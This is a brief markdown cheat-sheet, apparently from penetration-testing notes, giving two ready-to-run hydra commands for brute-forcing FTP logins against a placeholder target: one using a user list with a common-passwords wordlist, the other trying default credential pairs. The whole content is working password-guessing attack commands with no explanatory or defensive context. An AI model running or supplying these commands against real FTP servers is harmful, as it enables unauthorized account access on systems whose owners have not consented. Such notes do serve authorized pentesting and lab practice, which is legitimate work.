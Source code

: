 # hydra bruteforce ftp
```bash
hydra -L users -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -e nsr $IP ftp
```

# hydra bruteforce ftp default creds
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $IP ftp
```
